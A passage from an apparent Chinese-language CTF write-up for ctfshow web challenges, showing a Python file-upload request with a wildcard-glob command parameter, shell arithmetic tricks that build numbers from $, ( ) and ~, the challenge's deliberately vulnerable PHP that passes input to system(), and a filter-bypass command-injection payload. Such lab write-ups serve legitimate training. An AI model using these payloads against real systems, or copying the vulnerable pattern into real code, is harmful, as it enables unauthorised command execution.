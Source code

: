 此处写一个Python脚本方便回忆。也可以手动构造一个burp的文件上传包。

```python
import requests

url = "http://192.168.81.159:9999/"
files = {'file': ('1.php', 'ls')}
response = requests.post(url + "?c=.+/???/????????[@-[]", files=files)
print(response.text)
```

### 使用$、(、)、~构造数字

在shell中，有以下几个特点：

```shell
$(()) # 结果为0
~$(()) # 结果为~0
# $(()) 包裹的部分中会进行一次计算，例如$((2+2))结果为4，因此：
$((~$(()))) # 结果为-1，因为~0计算结果为-1，要得到-2，可以有构造出$((-1-1))，因此：
$(($((~$(())))$((~$(()))))) # 结果为-2，因此什么-3、-4、乃至-100都可以以此类推了
# 单纯看计算的话，~是取相反数再减1，例如~0=-1，~36=-37。因此36=~-37
```

ctfshow web入门57

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

payload：

```shell
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```
